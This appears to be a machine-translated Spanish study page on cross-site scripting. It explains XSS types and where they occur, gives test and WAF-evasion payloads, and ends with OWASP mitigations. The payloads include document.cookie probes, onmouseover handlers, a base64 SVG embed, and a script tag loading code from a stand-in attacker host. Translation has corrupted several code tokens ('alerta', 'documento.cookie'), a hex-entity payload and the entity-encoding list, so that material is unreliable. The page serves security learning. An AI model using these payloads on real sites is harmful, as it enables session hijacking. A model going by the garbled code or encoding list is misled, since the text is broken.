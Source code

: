 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# XSS Injection

Encontrar las vulnerabilidades xss se logran mediante los siguientes tipos de ataques:

*
  1. Reflejado (Reflected XSS)
  2. Persistente (Stored XSS)
  3. Basado en DOM (DOM-based XSS)

La explotación exitosa podría resultar en la instalación o ejecución de código malicioso, compromiso de la cuenta, secuestro de cookies de sesión, revelación o modificación de archivos locales o redirección del sitio.

Normalmente encontrará vulnerabilidades XSS en lo siguiente:

* Campos de búsqueda que hacen eco de una cadena de búsqueda al usuario
* encabezados HTTP
* Campos de entrada que reflejan los datos del usuario
* Mensajes de error que devuelven texto proporcionado por el usuario
* Campos ocultos que pueden incluir datos ingresados ​​por el usuario.
* Aplicaciones (o sitios web) que muestran datos proporcionados por el usuario

El siguiente ejemplo muestra una prueba XSS que se puede realizar desde la barra de direcciones de un navegador:

```
  javascript:alert("Prueba Omar_s_XSS"); javascript:alerta(documento.cookie);
```

El siguiente ejemplo muestra una prueba XSS que se puede realizar en un campo de entrada del usuario en un formulario web:

```
<script>alerta("Prueba XSS")</script>
```

&#x20;

**NOTA** Los atacantes pueden utilizar técnicas de ofuscación en ataques XSS codificando etiquetas o partes maliciosas del script usando Unicode para que el enlace o el contenido HTML quede disfrazado para el usuario final que navega por el sitio.

### XSS Evasion Techniques

Se pueden utilizar numerosas técnicas para evadir las protecciones XSS y los productos de seguridad, como los firewalls de aplicaciones web (WAF). En lugar de enumerar todas las diferentes técnicas de evasión descritas por OWASP, esta sección revisa algunas de las técnicas más populares.

Primero, echemos un vistazo a una inyección de JavaScript XSS que sería detectada por la mayoría de los filtros XSS y soluciones de seguridad:

```
<SCRIPT SRC=http://malicious.h4cker.org/xss.js></SCRIPT>
```

El siguiente ejemplo muestra cómo la etiqueta HTML **img** se puede utilizar de varias maneras para evadir potencialmente los filtros XSS:

```
  <img src="javascript:alert('xss');"> <img src=javascript:alert('xss')> <img src=javascript:alert("XSS")> <img src=javascript:alert ('xs')>
```

También es posible utilizar otras etiquetas HTML maliciosas (como etiquetas), como se demuestra aquí:

```
  <a onmouseover="alert(document.cookie)">Este es un enlace malicioso</a> <a onmouseover=alert(document.cookie)>Este es un enlace malicioso</a>
```

Un atacante también puede utilizar una combinación de referencias de caracteres HTML hexadecimales para evadir potencialmente los filtros XSS, como se demuestra aquí:

```
  <img src=javascript& #x3Aalert('XSS' x29>
```

La codificación US ASCII puede eludir muchos filtros de contenido y también puede usarse como técnica de evasión, pero solo funciona si el sistema transmite en codificación US ASCII o si se configura manualmente. Esta técnica es útil contra WAF. El siguiente ejemplo demuestra el uso de la codificación ASCII de EE. UU. para evadir WAF:

```
¼script¾alerta(¢XSS¢)¼/script¾
```

**El siguiente ejemplo muestra un ejemplo de una técnica de evasión que implica el uso de etiquetas de inserción** HTML para incrustar un archivo de gráficos vectoriales escalables (SVG):

```
  <EMBED SRC=”data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dH A6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcm cvMjAwMC9zdmciIHhtbG5zOnhsa W5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3 hsaW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaW dodD0iMjAwIiBpZD0ieHNzIj48c2NyaXB0IHR5cGU 9InRleHQvZWNtYXNjcmlwdC I+YWxlcnQoIlhTUyIpOzwvc2NyaXB0Pjwvc3ZnPg==" tipo="image/svg+xml" AllowScriptAccess="always"></EMBED>
```

Mitigaciones de XSS

Las siguientes son reglas generales para prevenir ataques XSS, según OWASP:

* Utilice un sistema de plantillas de escape automático.
* Nunca inserte datos que no sean de confianza, excepto en ubicaciones permitidas.
* Utilice el escape HTML antes de insertar datos que no sean de confianza en el contenido del elemento HTML.
* Utilice el escape de atributos antes de insertar datos que no sean de confianza en atributos comunes de HTML.
* Utilice el escape de JavaScript antes de insertar datos que no sean de confianza en valores de datos de JavaScript.
* Utilice el escape CSS y valide estrictamente antes de insertar datos que no sean de confianza en valores de propiedad de estilo HTML.
* Utilice el escape de URL antes de insertar datos que no sean de confianza en los valores de los parámetros de URL HTML.
* Desinfecte el marcado HTML con una biblioteca como ESAPI para proteger la aplicación subyacente.
* Evite el XSS basado en DOM siguiendo las recomendaciones de OWASP en [_https://cheatsheetseries.owasp.org/cheatsheets/DOM\_based\_XSS\_Prevention\_Cheat\_Sheet.html_ .](https://cheatsheetseries.owasp.org/cheatsheets/DOM\_based\_XSS\_Prevention\_Cheat\_Sheet.html)
* Utilice el indicador de cookies **HTTPOnly** .
* Implementar política de seguridad de contenidos.
* Utilice el encabezado de respuesta **X-XSS-Protection** .

También debe convertir la entrada que no sea de confianza en un formato seguro, donde la entrada se muestra como datos para el usuario. Esto evita que la entrada se ejecute como código en el navegador. Para hacer esto, realice la siguiente codificación de entidad HTML:

* Convertir _**a**_ `**&amp;.` \*\* \_
* Convertir _**<**_ a `**&lt;**.`
* Convertir _**>**_ a `**&gt;.`\*\*
* Convertir a _**\*\***_ `**&quot;.` \_
* Convertir a _**\*\***_ `**&#x27;.` \_
* Convertir _**a**_ `**&#x2F;.` \*\* \_

Las siguientes son mejores prácticas adicionales para prevenir ataques XSS:

* Escapa todos los caracteres (incluidos los espacios pero excluyendo los caracteres alfanuméricos) con la entidad HTML **\&#xHH;** formato (donde **HH** es un valor hexadecimal).
* Utilice únicamente la codificación de URL, no la URL completa ni los fragmentos de ruta de una URL, para codificar los valores de los parámetros.
* Escapa todos los caracteres (excepto los caracteres alfanuméricos), con el formato de escape **\uXXXX Unicode (donde X** es un número entero).
* El escape CSS admite **\XX** y **\XXXXXX** , así que agregue un espacio después del escape CSS o use la cantidad total de escape CSS posible rellenando con ceros el valor.
* Eduque a los usuarios sobre la navegación segura para reducir el riesgo de ser víctimas de ataques XSS.

Los controles XSS ahora están disponibles en los navegadores web modernos.

**NOTA** Uno de los mejores recursos que enumera varias mitigaciones contra vulnerabilidades y ataques XSS es la hoja de trucos de prevención de secuencias de comandos entre sitios de OWASP, disponible en [_https://cheatsheetseries.owasp.org/cheatsheets/Cross\_Site\_Scripting\_Prevention\_Cheat\_Sheet.html_](https://cheatsheetseries.owasp.org/cheatsheets/Cross\_Site\_Scripting\_Prevention\_Cheat\_Sheet.html) .
